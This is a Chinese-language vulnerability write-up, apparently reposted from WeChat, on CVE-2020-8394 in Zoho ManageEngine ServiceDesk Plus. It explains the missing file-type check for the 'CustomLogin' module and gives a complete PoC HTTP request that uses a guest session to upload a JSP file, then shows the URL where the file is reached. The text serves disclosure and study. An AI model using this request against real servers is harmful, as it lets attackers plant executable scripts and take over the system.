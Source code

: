# Zoho 任意文件上传漏洞(CVE-2020-8394)

Zoho企业的产品 Zoho ManageEngine ServiceDesk Plus 是一套IT互联网服务管理软件，拥有资产管理、采购管理、合同管理等功能模块，提供一流的IT支持服务。

ServiceDesk Plus10.0 build 10012之前的版本产品存在任意文件上传漏洞。具体来说，SDJSPClasses.jar包的FileAttachment_jsp.class仅检查module参数为“SSP”、“DashBoard”、“HomePage”时的上传文件类型，而未检查module参数为“CustomLogin”时的上传文件类型，导致恶意分子采用低权限guest用户即能上传、并任意访问jsp类可执行命令的脚本文件。

用 Burp Suite 捕获低权限guest用户的cookie信息和数据包，以便开展后续POC的构建工作。

**PoC：**

```
POST /common/FileAttachment.jsp?module=CustomLogin&view=Dashboard1 HTTP/1.1
Host: 192.168.6.135:8081
Content-Length: 366
Accept: */*
Origin: http://192.168.6.135:8081
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Content-Type: multipart/form-data; boundary=----aaa
Referer: http://192.168.6.135:8081/DashBoard.do
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,vi;q=0.8
Cookie: sdpcsrfcookie=bd678a1d-28b9-4eae-9d5d-f3a7e6f0bd88; servicedeskplus-_zldp=LsfUh%2FKeku9L3s3nPEJp8WNr%2BtCatkARgcAlZRum6ctL03zZZshSooiaABpQbhelmKwM1K1ctjo%3D; servicedeskplus-_zldt=01bc454f-6f2a-492e-889a-6d6b6ffde97d-2; SDPSESSIONID=B7BB216915E8FB5476DA8774161B9474; JSESSIONID=A7BEE85ED00E1AD81BB9E8081BA49D7D; JSESSIONIDSSO=601A38BD1F283CA55D289D78564E09CA
Connection: close

------aaa
Content-Disposition: form-data; name="sspsetup"
Attach
------aaa
Content-Disposition: form-data; name="module"
CustomLogin
------aaa
Content-Disposition: form-data; name="filePath"; filename="test.jsp"
Content-Type: text/html

This is shell content

------aaa
Content-Disposition: form-data; name="hmtlcontent"

------aaa--
```

分析可知，访问拥有文件上传功能的核心代码，设置 module 参数为 “CustomLogin”，在内容栏设置test.jsp文件的内容是 “This is shell content”。

重新启动服务后，直接访问脚本文件。例如http://192.168.6.135:8081/custom/login/test.jsp

![](media/16096800057039/16096800318408.jpg)


from:https://mp.weixin.qq.com/s/yDGINcg5R8DitXtWX4v22Q
